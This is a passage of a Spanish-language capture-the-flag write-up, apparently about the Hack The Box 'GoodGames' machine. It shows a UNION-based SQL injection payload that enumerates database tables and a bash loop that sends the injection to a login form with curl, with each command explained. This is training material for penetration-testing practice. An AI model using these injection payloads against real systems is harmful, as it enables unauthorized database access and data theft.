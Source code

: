 
Okey, ahora que sabemos que la base de datos se llama main, vamos a intentar listas las tablas que contiene:

```mysql
' union select 1,2,3,table_name from information_schema.tables-- -
```

Nos aparecen un montón:

![image](../zimages/Pasted_image_20241031145145.png)

Es bastante lioso, así que vamos a probar a añadir a la inyección `limit 0,1`, nos debería listar la primera, y si la modificamos por `limit 1,1`, nos debería listar la segunda, así sucesivamente:

![image](../zimages/Pasted_image_20241031145507.png)

Ahora que tenemos una forma de listar las tablas, vamos a automatizar este proceso. Como las peticiones de Burpsuite se tramitan por POST, vamos a utilizar curl utilizando un secuenciador para que vaya probando todos los números, de esta manera:

```bash
for i in $(seq 0 100); do echo "[+] Tabla número $i = $(curl -s -X POST http://goodgames.htb/login --data "email=' union select 1,2,3,table_name from information_schema.tables limit $i,1-- -&password=fadsf")";done | grep "Welcome"
```

Aquí hacemos los siguiente:

1. Creamos una variable que almacena una secuencia de números del 0 al 100 [for i in $(seq 0 100);].
2. Usamos esa variable para que en pantalla nos muestre cada uno de los intentos con un mensaje [do echo "[+] Tabla número $i =]
3. En el resto del comando estamos utilizando curl con los siguientes parámetros:
	1. Parámetro "-s": significa 'silent mode', para hacer la enumeración silenciosamente.
	2. Parámetro "-X": nos deja especificar el formato de petición que haremos, en este caso ponemos que la haremos por 'POST'.
	3. Parámetro "--data": le indicamos los datos que queremos enviar como petición, que es la iyección sql.
4. Por último ponemos "; done" para terminar ese comando de la terminal.
5. Filtramos por la palabra "Welcome" para no ver el código entero.
